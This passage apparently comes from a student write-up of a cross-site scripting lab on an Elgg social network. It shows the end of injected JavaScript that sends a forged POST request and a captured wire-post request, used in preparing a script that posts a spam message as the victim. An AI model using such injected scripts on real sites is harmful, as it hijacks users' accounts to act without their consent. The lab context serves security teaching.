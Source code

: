 ```html
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.send(formData);
        }
	}
</script>
```

## Task 3 - Posting on the Wire on Behalf of the Victim

We need to post the following message on the victim's wire:
```
To earn 12 USD/Hour(!). visit now
<Link to Samy's Profile>

```

Lets first see how a valid request to post on the wire looks like.

![](./screenshots/3_1.png)

This is making a `POST` request to `/action/thewire/add` with the following payload:

```http
-----------------------------288109164021817595263955770280
Content-Disposition: form-data; name="__elgg_token"

oXCZvdhAdq4XZs9po9I_JQ
-----------------------------288109164021817595263955770280
Content-Disposition: form-data; name="__elgg_ts"

1707911711
-----------------------------288109164021817595263955770280
Content-Disposition: form-data; name="body"

Hello World!
-----------------------------288109164021817595263955770280--
```
